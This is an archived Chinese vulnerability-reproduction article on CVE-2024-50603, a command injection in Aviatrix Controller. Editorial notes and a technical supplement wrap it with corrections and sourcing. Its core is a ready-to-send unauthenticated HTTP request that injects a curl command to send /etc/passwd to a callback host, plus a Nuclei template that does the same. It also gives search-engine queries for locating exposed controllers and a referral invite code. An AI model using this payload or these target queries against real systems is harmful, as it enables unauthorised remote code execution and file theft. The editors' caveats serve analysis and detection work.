






# 【漏洞复现】CVE-2024-50603

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Aviatrix Controller CVE-2024-50603
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：<7.1.4191和7.2.x<7.2.4996需逐分支/旧系列受支持状态官方核，CID任意说明不是真认证token；200额外条件可能漏异常回显但已执行场景；有Securing.pl原研究/官方PSIRT精确源，修复应列热补/版本矩阵并查入侵
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 两个action及cloud_type/src_cloud_type参数明确，示例覆盖前者
2. <7.1.4191和7.2.x<7.2.4996需逐分支/旧系列受支持状态官方核，CID任意说明不是真认证token
3. 完整HTTP/Nuclei且OOB+passwd特征比只200可靠，但会把/etc/passwd发第三方Interactsh，并依赖curl/出网/Unix文件，不能作无损读取检测
4. 200额外条件可能漏异常回显但已执行场景
5. dnglog占位需明确，硬编码ContentLength按体重算
6. 有Securing.pl原研究/官方PSIRT精确源，修复应列热补/版本矩阵并查入侵
7. 巨量表样式和邀请码清理

### 操作风险

两个action及cloud_type/src_cloud_type参数明确，示例覆盖前者

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

混子Hacker  混子Hacker   2025-01-12 12:54  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><td data-colwidth="576" width="576" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 0px;color: rgb(255, 255, 255);letter-spacing: 0.578px;text-align: center;-webkit-tap-highlight-color: transparent;outline: 0px;border-top-color: rgb(255, 255, 255);visibility: visible;"><strong style="font-family: inherit;font-size: 1em;letter-spacing: 0.578px;text-decoration: inherit;-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><span leaf="">免责声明</span></span></strong></section><section style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。</span></section></td></tr></tbody></table>  
  
  
[   
漏洞简介   
]  
  
——    
越努力越幸运 ——  
  
CVE-2024-50603  
  
Aviatrix Controller受影响版本中，由于对 /v1/api 下 list_flightpath_destination_instances 操作中的 cloud_type 参数或 flightpath_connection_test 操作中的 src_cloud_type 参数缺乏适当的输入清理，可能导致命令注入漏洞，未经身份验证的远程攻击者可以构造恶意请求，利用该漏洞执行任意命令。  
  
  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;visibility: visible;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,{&#34;tagName&#34;:&#34;section&#34;,&#34;attributes&#34;:{&#34;style&#34;:&#34;text-align: center;&#34;},&#34;namespaceURI&#34;:&#34;&#34;}]" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">影响范围</span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 14px;visibility: visible;"><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-family: &#34;Microsoft YaHei UI&#34;;visibility: visible;"><span leaf=""><br/></span></span></strong></span></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p><span leaf=""><span textstyle="" style="font-size: 14px;">Aviatrix Controller &lt; 7.1.4191</span></span></p><p><span leaf=""><span textstyle="" style="font-size: 14px;">Aviatrix Controller 7.2.x &lt; 7.2.4996</span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">漏洞评分</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">10.0</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(255, 0, 0);"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td rowspan="3" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">利用条件</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">用户认证</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><br/></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">利用难度</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">低</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf=""><br/></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">所需权限</span></span></section></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;">无</span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">解决方案</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">升级版本</span></span></p></td></tr></tbody></table>  


  
  
  
  
漏洞信息  
  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: app="aVIaTrIX-Controller"
Quake：app:"Aviatrix Controller"

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
POST /v1/api HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (CentOS; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Connection: close
Content-Length: 193
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+@/etc/passwd+http://dnglog)
```  
  
  
  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-50603
info:
  name: Aviatrix Controller RCE
  author: newlinesec,securing.pl
  severity: critical
  description: |
    An issue was discovered in Aviatrix Controller before 7.1.4191 and 7.2.x before 7.2.4996. Due to the improper neutralization of special elements used in an OS command, an unauthenticated attacker is able to execute arbitrary code. Shell metacharacters can be sent to /v1/api in cloud_type for list_flightpath_destination_instances, or src_cloud_type for flightpath_connection_test.
  reference:
    - https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-50603
    - https://docs.aviatrix.com/documentation/latest/network-security/index.html
    - https://docs.aviatrix.com/documentation/latest/release-notices/psirt-advisories/psirt-advisories.html?expand=true#remote-code-execution-vulnerability-in-aviatrix-controllers
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.0
    cve-id: CVE-2024-50603
    cwe-id: CWE-78
  metadata:
    vendor: aviatrix
    product: controller
    zoomeye-query: app="Aviatrix Controller"
  tags: cve,cve2024,aviatrix,controller,rce,oast

variables:
  oast: "{{interactsh-url}}"

http:
  - raw:
      - |
        POST /v1/api HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+@/etc/passwd+{{oast}})

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        name: http
        words:
          - "http"

      - type: status
        status:
          - 200

      - type: regex
        part: interactsh_request
        regex:
          - 'root:.*:0:0:'
```  
  
  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）


## CVE-2024-50603 技术补充

2026-10-03静态核对。以下说明追加于原文之外，保留所有原始请求、代码、地址与图片。

[Jakub Korepta原始研究](https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/)于2025-01-07公开，给出PHP到cloudx_cli命令拼接代码。list_flightpath_destination_instances的cloud_type和flightpath_connection_test的src_cloud_type未按其他参数做shell转义。CID直到CLI执行阶段才校验，shell先解释的注入不因此受认证保护；CID存在不等于请求已认证。

报告给出请求和其研究服务器收到的passwd回传，测试部署来自Azure Marketplace。现有文章和固定Nuclei模板复用前一种action；两者会启动curl，把/etc/passwd内容传给外部回连服务器，依赖curl、出网和Unix路径。模板以HTTP回连及文件特征判断，比只看200更具体，但增加目标200条件仍可能漏掉已执行而上层报错的情形。

CNA的两个修复边界为7.1.4191和7.2.4996；原研究概述中的7.2.4820是研究范围，不应代替完整分支边界。当前旧厂商PSIRT URL返回404，未据此断言无补丁；源码、请求和响应足以补技术主体，热补/EOL的完整厂商矩阵仍待更新来源。所有原始示例值保持原样，未发送任何目标请求。
